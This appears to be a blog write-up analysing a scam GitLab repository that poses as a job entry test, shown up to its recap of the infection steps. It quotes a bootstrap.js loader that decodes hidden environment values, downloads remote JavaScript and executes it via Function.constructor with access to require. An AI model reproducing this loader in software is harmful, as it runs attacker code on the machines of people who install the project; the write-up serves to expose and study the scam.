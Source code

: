 ```yaml
---
title: Malicious Gitlab Repository
published: 2025-06-11
description: 'Explore and analyse a scam repository on Gitlab'
image: 'https://hackmd.io/_uploads/BJw4HyPmle.png'
tags: [malware, misc]
category: 'write-up'
draft: false 
lang: 'en'
---
```


:::note
Malicious GitLab Repository:  [E-commerce Repo on GitLab](https://gitlab.com/topmanager1016-group1/E-commerce)
:::

# Overview 

This write-up marks a milestone for me - it’s the first time I’ve worked directly with malware 🤺 (though I've solved a few REV challenges in CTF before). The origin of this repository comes from a post I saw in the J2Team group, where someone was asked to complete an entry test (which was uploaded to GitLab at the above link). I also watched a video by Manh Tuan up to the point where the server was called for the first time and the obfuscated JavaScript code was retrieved. This write-up will continue by analyzing that JavaScript file. 

# Recap

Below, I’ll briefly go over the steps shown in the video by Manh Tuan.


1. In the ```/api/app.js``` file, it calls the ```initAppBootstrap()``` function.
![{BB380DF1-6C0B-4079-AD43-2ECA163DA9D7}](https://hackmd.io/_uploads/B1UhwkwXgl.png)

2. Inside `bootstrap.js`, we encounter the following code:
    ```javascript
    const path = require('path');
    require('dotenv').config({ path: path.resolve(__dirname, '../.env') });
    const axios = require('axios');

    const initAppBootstrap = async () => {
        try {
            const src = atob(process.env.DEV_API_KEY);
            const k = atob(process.env.DEV_SECRET_KEY);
            const v = atob(process.env.DEV_SECRET_VALUE);
            const s = (await axios.get(src, { headers: { [k]: v } })).data;
            const handler = new (Function.constructor)('require', s);
            handler(require);
        } catch (error) {
            console.log(error);
        } 
    }
